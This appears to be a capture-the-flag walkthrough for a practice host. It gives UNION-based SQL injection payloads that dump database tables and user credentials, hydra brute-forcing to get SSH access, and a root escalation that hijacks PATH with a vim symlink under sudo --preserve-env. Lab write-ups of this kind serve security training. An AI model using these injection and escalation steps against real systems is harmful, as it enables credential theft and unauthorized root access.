


*   sql injection to get credentials for server
*   found another account's credential
*   local privilege escalation using ln and preserve-env

## 192.168.1.5

1.  `nmap` python server on 8080
2.  `dirsearch` only find robots.txt
3.  We found directory `mercuryfacts/` in 404 page



## mercuryfacts/1 or 1=1/



1.  `1 or 1=1` find sql injection
2.  `1 order by 2` and `1 order by 1` find sql query only have 1 column 
3.  `1 union select group_concat(table_name) from information_schema.tables where table_schema = database()` two tables: **facts**, **users**
4.  `1 union select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name ='users'`: columns in table **users**: _id_,_username_,_password_
5.  `1 union select username(password) from users`: username and password
6.  `hydra` get a valid account _webmaster_ and ssh to the server 

## privilege escalation
1.  `~/mercury_proj/notes.txt` has base64 password for account _linuxmaster_
2.  `sudo -l` found `/usr/bin/check_syslog.sh` can be run without password

```sh
$cat /usr/bin/check_syslog.sh 
#!/bin/bash
tail -n 10 /var/log/syslog
```

3.  `ln -s /usr/bin/vim tail` create file named `tail` linked to `vim` in current folder(~),
4.  `export PATH=.:$PATH` add current folder to environment variable
5.  `sudo –preserve-env=PATH /usr/bin/check_syslog.sh` use the env variable set as above, which running `tail` will use the `tail` in current folder which linked to `vim`, instead of _/usr/bin/tail_
6.  `:!/bin/sh` using vim to get shell

## We got a Root


